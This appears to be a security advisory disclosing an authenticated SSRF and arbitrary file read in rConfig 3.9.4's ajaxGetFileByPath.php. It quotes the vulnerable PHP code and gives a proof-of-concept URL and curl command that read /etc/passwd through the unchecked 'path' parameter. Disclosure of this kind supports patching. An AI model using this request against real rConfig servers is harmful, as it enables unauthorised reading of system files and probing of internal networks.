

# SSRF vulnerability in  `www/lib/ajaxHandlers/ajaxGetFileByPath.php` File (rConfig 3.9.4 version)

## 0x01 Affected version

vendor: http://www.rconfig.com/

version: 3.9.4

php version: 7.x

## 0x02 Vulnerability description

A Server-Side Request Forgery (SSRF) in file  `www/lib/ajaxHandlers/ajaxGetFileByPath.php` of rConfig 3.9.4 allows remote attackers to force the application to make arbitrary requests via injection of arbitrary URLs into the `path` parameter. We should note that the vulnerability requires authentication to trigger.


The vulnerable code is located in the file  `www/lib/ajaxHandlers/ajaxGetFileByPath.php`. Because it does not perform sufficient checksumming on the `path` parameter, the taint is introduced from the `$filepath` variable into the tainted function `file_exists`, and after the `file_exists` function is executed it sends a request to the URL specified by the `path` parameter, eventually leading to an SSRF vulnerability.


Function call stack information related to the SSRF vulnerability.

```PHP
<?php
if (!$session->logged_in) {
    echo 'Don\'t bother trying to hack me!!!!!<br /> This hack attempt has been logged';
    $log->Warn("Security Issue: Some tried to access this file directly from IP: " . $_SERVER['REMOTE_ADDR'] . " & Username: " . $session->username . " (File: " . $_SERVER['PHP_SELF'] . ")");
    // need to add authentication to this script
    header("Location: " . $config_basedir . "login.php");
} else {
//  used to retrive contents of file specified in JS in devicemgmt.php
    $filepath = $_GET['path'];
    if (file_exists($filepath)) {
        $fileArr = file($filepath);
    } else {
        $fileArr = 'Failed';
    }
    echo json_encode($fileArr);
}
```

Because the `path` parameter is unrestricted, it is also possible to use the server side to send requests, such as probing intranet web services. The corresponding PoC is as follows:

```
http://172.16.119.147/rconfig/www/lib/ajaxHandlers/ajaxGetFileByPath.php?path=file://localhost/etc/passwd
```


This vulnerability can lead to arbitrary file reads, for example if we use the `file://`protocol to read the `/etc/passwd` file





You can also use the following curl command to verify the vulnerability. (Note that you need to update the token information for authentication.)

```
curl -i http://172.16.119.147/rconfig/www/lib/ajaxHandlers/ajaxGetFileByPath.php?path=file://localhost/etc/passwd
```


## 0x03 Acknowledgement

z3

